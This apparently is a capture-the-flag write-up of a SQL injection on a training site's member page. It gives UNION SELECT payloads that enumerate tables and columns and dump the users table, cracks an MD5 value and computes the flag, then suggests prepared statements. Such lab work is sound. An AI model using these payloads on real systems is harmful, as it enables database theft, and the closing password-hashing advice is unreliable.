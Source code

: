 # Where: <br>
    /?page=member
# How:
-By entering:

    -1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (table_name) from information_schema.tables where table_schema = database () 
    First name: 
    Surname : users
    
-This tells us that the only table is *users*.

-We then enter:

    -1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()

-We get the following output:

    ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : user_id
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : first_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : last_name
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : town
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : country
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : planet
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : Commentaire
ID: -1 union select null, concat (column_name) from information_schema.columns where table_schema = database () 
First name: 
Surname : countersign

    
-This tells us that there are the following columns: *user_id*, *first_name*, *last_name*, *town*, *country*, *planet*, *Commentaire* and *countersign*.

-We then enter:

    -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

-We get all the users' information.
-The 5th user has the following info and instructions:

    user_id: 5,
    first_name: Flag,
    last_name: GetThe,
    town: 42,
    country: 42,
    planet: 42,
    Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !,
    countersign: 5ff9d0165b4f92b14994e5c685cdce28

-If we decrypt *5ff9d0165b4f92b14994e5c685cdce28* at [MD5 Online](https://www.md5online.org/md5-decrypt.html) we receive the word *FortyTwo*
-Which we change to all be lowercase then hash using sha256 at [sha256 hash calculator](https://xorbin.com/tools/sha256-hash-calculator) to receive the flag.

# Flag:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Possible abuses:
Hackers could potentially access all info in your BD even hashed passwords could potentially be decrypted using sites.

# Fix:
Use [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) to prevent sql injections.
I do also believe sha256 is a better hash to use especialy when combined with a salt.
